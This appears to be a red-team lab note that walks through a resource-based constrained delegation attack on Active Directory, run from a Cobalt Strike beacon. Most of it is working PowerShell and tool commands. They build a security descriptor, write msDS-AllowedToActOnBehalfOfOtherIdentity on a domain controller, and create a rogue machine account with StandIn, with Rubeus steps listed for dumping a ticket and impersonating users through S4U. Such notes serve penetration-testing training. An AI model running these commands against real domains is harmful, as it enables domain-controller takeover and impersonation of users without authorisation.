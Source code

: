 To start the attack, we need its SID.
```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
```

We'll then use this inside an SDDL to create a security descriptor.  The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.

```
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
```

 These descriptor bytes can then be used with `Set-DomainObject`.  However, since we're working through Cobalt Strike, everything has to be concatenated into a single PowerShell command.
 
```
beacon> powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose
```

```
beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

Next, we use the WKSN-2$ account to perform the S4U impersonation with Rubeus.  The `s4u` command requires a TGT, RC4 or AES hash.  Since we already have elevated access to it, we can just extract its TGT from memory.

1. [[Rubeus#triage]]
2. [[Rubeus#dump]]
3. [[Rubeus#s4u]]
4. [[Rubeus#createonly#Pass the Ticket]]

To clear up, simply remove the msDS-AllowedToActOnBehalfOfOtherIdentity entry on the target.

```
beacon> powershell Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
```

If you did not have local admin access to a computer already, you can resort to creating your own computer object.  By default, even domain users can join up to 10 computers to a domain - controlled via the _ms-DS-MachineAccountQuota_ attribute of the domain object.

```
beacon> powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota
```

[StandIn](https://github.com/FuzzySecurity/StandIn) is a post-ex toolkit written by [Ruben Boonen](https://twitter.com/FuzzySec) and has the functionality to create a computer with a random password.

```
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make
```
